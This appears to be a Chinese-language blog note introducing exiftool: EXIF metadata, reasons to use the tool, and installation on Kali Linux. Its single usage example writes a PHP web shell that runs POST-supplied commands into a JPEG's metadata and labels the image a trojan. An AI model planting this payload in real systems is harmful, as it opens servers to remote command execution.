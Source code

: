 # exiftool

## 页面跳转

[返回网站首页](https://ryancatalina.github.io/)

[返回Linux 的主页](/index.md)

## 一、什么是EXIF

可交换图像文件格式常被简称为Exif（Exchangeable image file format），是专门为数码相机的照片设定的，可以记录数码照片的属性信息和拍摄数据。Exif 可以被附加在JPEG、TIFF、RIFF 等文件之中，为其增加有关数码相机拍摄信息的内容和缩略图或图像处理软件的一些版本信息

## 二、exiftool简介

官网：https://exiftool.org/

使用exiftool的理由：

exiftool是经过测试发现对图片EXIF信息解析支持是最好的（如果有更好的请补充）

exiftool支持图片EXIF信息查询，修改及批量操作，还支持其它文件的EXIF操作

安全隐私问题，因为经常有网上暴露图片隐私问题，使用在线需要上传到服务器。采用exiftool保证了图片的安全和隐私，显然是最适合的。
我们知道文件后缀名并不能代表文件的类型格式，比如webp格式后缀名是jpg，换言之一张jpg后缀名图片可能不是jpg图片，可能是web，png，text或其它类型文件。那么怎么快速了解它是哪种类型文件并获取它的一些其它信息呢，这时exiftool就派上用场了，试了下其它几个Exif工具，也用Mac/iOS原生代码测试了下，发现不能有效的读取jpg后缀的webp图片，而exiftool能很好支持。注意并非每一张图片都包含 exif 信息，像微信朋友圈如果发表的不是原图就没有

## 三、exiftool的安装

环境：kali linux 2020.2 amd64

```
apt-get install exiftool
```

## 四、使用

为一个图片生成图片码，图片码为我们的木马
```
exiftool poc.jpg -documentname="<?php echo exec(\$_POST['cmd']); ?>"
```
